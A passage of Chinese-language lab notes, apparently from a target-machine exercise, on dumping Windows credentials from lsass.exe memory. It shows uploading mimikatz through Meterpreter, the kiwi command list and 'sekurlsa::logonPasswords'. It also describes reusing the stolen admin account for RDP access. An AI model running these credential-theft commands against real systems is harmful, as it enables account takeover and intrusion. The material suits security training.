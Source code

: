 >
> ~不过我这拿不到明文，只能得到密文--~
>
> > 原理：获取到内存文件lsass.exe进程(它用于本地安全和登陆策略)中存储的明文登录密码
> >
> > 利用前提：拿到了admin权限的cmd，管理员用密码登录机器，并运行了lsass.exe进程，把密码保存在内存文件lsass进程中。
> >
> > 抓取明文：手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码
>
> ![](https://i.loli.net/2021/04/18/DhwS9J5APNuQ7b2.png)

当然也可以上传个mimikatz.exe直接整

```
upload mimikatz.exe路径 靶机路径：如upload root\mimikatz.exe路径 靶机
```

然后就可以利用3389端口和获得的管理员帐号来进行远程登录了
（思路不限制，主要还是习惯，看一些文章有的师傅是直接新建用户进行远程登录再进行操作提权这些）



> 后面重新打了一遍，msf6中mimikatz被kiwi替代了，可以输入help kiwi查看相关指令
>
> ```
> meterpreter > help kiwi
> 
> Kiwi Commands
> =============
> 
>     Command                Description
>     -------                -----------
>     creds_all              Retrieve all credentials (parsed)
>     creds_kerberos         Retrieve Kerberos creds (parsed)
>     creds_livessp          Retrieve Live SSP creds
>     creds_msv              Retrieve LM/NTLM creds (parsed)
>     creds_ssp              Retrieve SSP creds
>     creds_tspkg            Retrieve TsPkg creds (parsed)
>     creds_wdigest          Retrieve WDigest creds (parsed)
>     dcsync                 Retrieve user account information via DCSync (unparsed)
>     dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
>     golden_ticket_create   Create a golden kerberos ticket
>     kerberos_ticket_list   List all kerberos tickets (unparsed)
>     kerberos_ticket_purge  Purge any in-use kerberos tickets
>     kerberos_ticket_use    Use a kerberos ticket
>     kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
>     lsa_dump_sam           Dump LSA SAM (unparsed)
>     lsa_dump_secrets       Dump LSA secrets (unparsed)
>     password_change        Change the password/hash of a user
>     wifi_list              List wifi profiles/creds for the current user
>     wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
> 
> ```
>
> 可以用kiwi_cmd来执行mimikatz的命令
>
> ```shell
> kiwi_cmd -f sekurlsa::logonPasswords
> ```
>
> 结果如下：
>
> ![](https://i.loli.net/2021/11/04/ka3inTQUNbrDx4c.png)
>
> 
